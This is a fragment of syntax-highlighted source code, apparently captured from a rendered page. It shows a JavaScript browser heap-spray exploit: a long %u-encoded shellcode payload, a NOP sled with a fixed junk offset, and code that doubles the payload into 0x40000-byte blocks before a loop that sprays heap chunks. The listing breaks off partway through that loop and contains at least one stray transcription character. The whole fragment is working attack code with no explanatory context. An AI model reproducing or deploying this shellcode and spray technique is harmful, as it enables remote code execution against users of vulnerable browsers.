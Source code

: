      <span class="hljs-string">"<span class="hljs-variable">%u082e</span><span class="hljs-variable">%u3853</span><span class="hljs-variable">%ub862</span><span class="hljs-variable">%u4ce0</span><span class="hljs-variable">%ucfab</span><span class="hljs-variable">%ufa41</span><span class="hljs-variable">%ufe8d</span><span class="hljs-variable">%uca52</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%uac11</span><span class="hljs-variable">%u4c91</span><span class="hljs-variable">%uaeee</span><span class="hljs-variable">%uaec5</span><span class="hljs-variable">%u61cf</span><span class="hljs-variable">%uae18</span><span class="hljs-variable">%u9f08</span><span class="hljs-variable">%ue2d3</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ud4c1</span><span class="hljs-variable">%u1346</span><span class="hljs-variable">%ua865</span><span class="hljs-variable">%u125a</span><span class="hljs-variable">%ua7a9</span><span class="hljs-variable">%u6ce3</span><span class="hljs-variable">%u77cc</span><span class="hljs-variable">%uc697</span>"</span> +a
     <span class="hljs-string">"<span class="hljs-variable">%ua7cf</span><span class="hljs-variable">%u5c08</span><span class="hljs-variable">%u5f87</span><span class="hljs-variable">%u3a22</span><span class="hljs-variable">%u5e38</span><span class="hljs-variable">%u58e7</span><span class="hljs-variable">%u2904</span><span class="hljs-variable">%uab8c</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ua8fe</span><span class="hljs-variable">%ue244</span><span class="hljs-variable">%u9bff</span><span class="hljs-variable">%ua9a8</span><span class="hljs-variable">%u14c1</span><span class="hljs-variable">%ub325</span><span class="hljs-variable">%u9206</span><span class="hljs-variable">%uc6d6</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ue17c</span><span class="hljs-variable">%ud16b</span><span class="hljs-variable">%u9846</span><span class="hljs-variable">%u54b7</span><span class="hljs-variable">%u3a5b</span><span class="hljs-variable">%uce33</span><span class="hljs-variable">%ubbbf</span><span class="hljs-variable">%u8990</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ub734</span><span class="hljs-variable">%udd5d</span><span class="hljs-variable">%udb13</span><span class="hljs-variable">%u3260</span><span class="hljs-variable">%ue728</span><span class="hljs-variable">%ub5e9</span><span class="hljs-variable">%u6eff</span><span class="hljs-variable">%u91a9</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%u2bdb</span><span class="hljs-variable">%ubb69</span><span class="hljs-variable">%u917a</span><span class="hljs-variable">%uc4dc</span><span class="hljs-variable">%u7d9d</span><span class="hljs-variable">%u6080</span><span class="hljs-variable">%u6fd5</span><span class="hljs-variable">%u13d5</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ue5b4</span><span class="hljs-variable">%u9128</span><span class="hljs-variable">%u40c2</span><span class="hljs-variable">%ua92a</span><span class="hljs-variable">%ue2cc</span><span class="hljs-variable">%u9843</span><span class="hljs-variable">%u6d47</span><span class="hljs-variable">%u2513</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%uca82</span><span class="hljs-variable">%u6feb</span><span class="hljs-variable">%u7a8f</span><span class="hljs-variable">%u3664</span><span class="hljs-variable">%u3f45</span><span class="hljs-variable">%uc9e9</span><span class="hljs-variable">%u03b3</span><span class="hljs-variable">%u4a14</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ufb36</span><span class="hljs-variable">%u52e3</span><span class="hljs-variable">%ufe33</span><span class="hljs-variable">%ud4a8</span><span class="hljs-variable">%u72af</span><span class="hljs-variable">%ub0a0</span><span class="hljs-variable">%u21cf</span><span class="hljs-variable">%u90c1</span>"</span> +
     <span class="hljs-string">"<span class="hljs-variable">%ua4b3</span><span class="hljs-variable">%u7851</span><span class="hljs-variable">%u431a</span><span class="hljs-variable">%u1bd2</span><span class="hljs-variable">%u4162</span>"</span>);
    var offset=<span class="hljs-number">0x5F4</span>;
    var junk_offset=nops.substring(<span class="hljs-number">0</span>,<span class="hljs-number">0x5F4</span>);
    var shellcode=junk_offset+code+nops.substring(<span class="hljs-number">0</span>,<span class="hljs-number">0x800</span>-<span class="hljs-number">0x5F4</span>-code.<span class="hljs-keyword">length</span>);
    <span class="hljs-keyword">while</span>(shellcode.<span class="hljs-keyword">length</span>&lt;<span class="hljs-number">0x40000</span>)
    {
        shellcode+=shellcode;
    }
    var block = shellcode.substring(<span class="hljs-number">0</span>,<span class="hljs-number">0x40000</span>);
    var heap_chunks = new Array();
    <span class="hljs-keyword">for</span> (var i=<span class="hljs-number">1</span>; i &lt; <span class="hljs-number">0x700</span>; i++) 